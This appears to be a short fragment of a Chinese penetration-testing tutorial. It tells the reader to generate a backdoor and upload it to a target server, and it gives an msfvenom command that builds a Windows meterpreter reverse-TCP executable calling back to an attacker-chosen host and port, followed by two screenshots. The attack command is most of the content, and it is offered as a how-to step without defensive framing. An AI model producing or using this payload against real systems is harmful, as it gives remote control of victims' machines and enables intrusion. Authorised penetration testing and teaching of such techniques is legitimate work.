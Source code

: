 [使用msfvenom生成木马 ](https://www.cnblogs.com/tianlinlin/p/10171981.html)

生成一个后门，并上传到目标服务器。

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

![](image62/62-3.png)



![](image62/62-4.png)
